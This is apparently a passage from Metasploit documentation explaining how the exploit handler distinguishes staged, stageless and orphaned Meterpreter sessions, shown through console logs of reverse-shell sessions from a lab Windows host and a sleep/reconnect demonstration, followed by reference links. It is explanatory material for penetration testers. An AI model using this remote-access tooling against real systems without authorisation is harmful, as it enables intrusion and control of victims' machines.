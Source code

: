 ```
[*] Meterpreter session 3 opened (10.1.10.35:7000 -> 10.1.10.44:49285) at 2016-10-05 12:43:55 +1000

msf exploit(handler) > sessions

Active sessions
===============

  Id  Type                   Information                           Connection
  --  ----                   -----------                           ----------
  2   meterpreter x86/win32  WIN-7CH5RT177BA\oj @ WIN-7CH5RT177BA  10.1.10.35:8000 -> 10.1.10.44:49283 (10.1.10.44)
  3   meterpreter x86/win32  WIN-7CH5RT177BA\oj @ WIN-7CH5RT177BA  10.1.10.35:7000 -> 10.1.10.44:49285 (10.1.10.44)
```
Again, note that there's no indication that a payload is being staged, instead we see that Metasploit has recognised the stageless payload. Here's what it looks like when we run staged payloads:
```
[*] [2016.10.05-12:44:44] https://10.1.10.35:7000 handling request from 10.1.10.44; (UUID: 6ivojknu) Staging Native payload...
[*] Meterpreter session 4 opened (10.1.10.35:7000 -> 10.1.10.44:49287) at 2016-10-05 12:44:44 +1000

msf exploit(handler) > sessions

Active sessions
===============

  Id  Type                   Information                           Connection
  --  ----                   -----------                           ----------
  2   meterpreter x86/win32  WIN-7CH5RT177BA\oj @ WIN-7CH5RT177BA  10.1.10.35:8000 -> 10.1.10.44:49283 (10.1.10.44)
  3   meterpreter x86/win32  WIN-7CH5RT177BA\oj @ WIN-7CH5RT177BA  10.1.10.35:7000 -> 10.1.10.44:49285 (10.1.10.44)
  4   meterpreter x86/win32  WIN-7CH5RT177BA\oj @ WIN-7CH5RT177BA  10.1.10.35:7000 -> 10.1.10.44:49287 (10.1.10.44)
```
This payload requires staging, and Metasploit recognises it and sends the stage appropriately. We have both the staged and stageless sessions appearing on port `7000`. Finally, when we put the staged session to sleep, we should see that it knows how to handle this case as well:
```
msf exploit(handler) > sess -1
[*] Starting interaction with 4...

meterpreter > sleep 5
[*] Telling the target instance to sleep for 5 seconds ...
[+] Target instance has gone to sleep, terminating current session.

[*] 10.1.10.44 - Meterpreter session 4 closed.  Reason: User exit
msf exploit(handler) >
[*] [2016.10.05-12:47:11] https://10.1.10.35:7000 handling request from 10.1.10.44; (UUID: 6ivojknu) Attaching orphaned/stageless session...
[*] Meterpreter session 5 opened (10.1.10.35:7000 -> 10.1.10.44:49288) at 2016-10-05 12:47:11 +1000
```
The session comes back and Metasploit knows it's not a new stageless payload (so no stageless redirect happens), but determines that it's an active orphaned session.


  [Reflective DLL Injection]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf
  [MS08-067]: https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
  [Brent Cook]: https://twitter.com/busterbcook
  [config-wiki]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Configuration